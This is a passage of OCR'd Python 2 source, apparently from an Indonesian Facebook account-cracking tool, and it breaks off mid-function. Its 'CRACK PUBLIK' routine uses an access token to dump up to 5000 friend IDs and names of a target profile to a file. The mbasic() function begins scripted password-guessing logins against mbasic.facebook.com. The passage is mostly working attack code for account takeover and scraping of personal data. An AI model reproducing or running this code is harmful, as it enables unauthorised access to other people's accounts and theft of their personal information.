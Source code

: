         except KeyError:
		print ('[x] Bukan ID Postingan')
                raw_input('[Kembali]')
                menu()
        except requests.exceptions.ConnectionError:
		exit('[x] Koneksi Error')
##### CRACK PUBLIK #####
def publik():
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print('[x] Token Invalid')
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		print('──────────────────────────────────────────')
		idt = raw_input("[•] ID Profil : ")
		limit = '5000'
		file = 'rozhak.json'
		print('[•] Nama File : '+file)
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			#print("[•] Nama : "+op["name"])
		except KeyError:
			print('[x] ID Profil Tidak Ada')
			raw_input("[Kembali]")
			menu
		r=requests.get("https://graph.facebook.com/"+idt+"?fields=friends.limit("+limit+")&access_token="+toket)
		id = []
		z=json.loads(r.text)
		qq = ('pblk.txt').replace(" ","_")
		ys = open(qq , 'w')#.replace(" ","_")
		for a in z['friends']['data']:
			id.append(a['id']+"<=>"+a['name'])
			ys.write(a['id']+"<=>"+a['name']+'\n')
			print("\r[•] Dump %s ID"%(str(len(id)))),;sys.stdout.flush();time.sleep(0.007)
		ys.close()
		os.rename(qq,file)
		print("\r[•] Total ID : %s          "%(len(id)))
		print('──────────────────────────────────────────')
		metode()
		
	except Exception as e:
		print('[x] Tidak Ada Teman')
		menu()
	except requests.exceptions.ConnectionError:
		exit('[x] Koneksi Error')
def mbasic(em,pas,hosts):
	global ua,mbasic_h
	r=requests.Session()
	r.headers.update(mbasic_h)
	p=r.get("https://mbasic.facebook.com/")
	b=bs4.BeautifulSoup(p.text,"html.parser")
	meta="".join(bs4.re.findall('dtsg":\{"token":"(.*?)"',p.text))
	data={}
	for i in b("input"):
		if i.get("value") is None:
			if i.get("name")=="email":
				data.update({"email":em})
			elif i.get("name")=="pass":
				data.update({"pass":pas})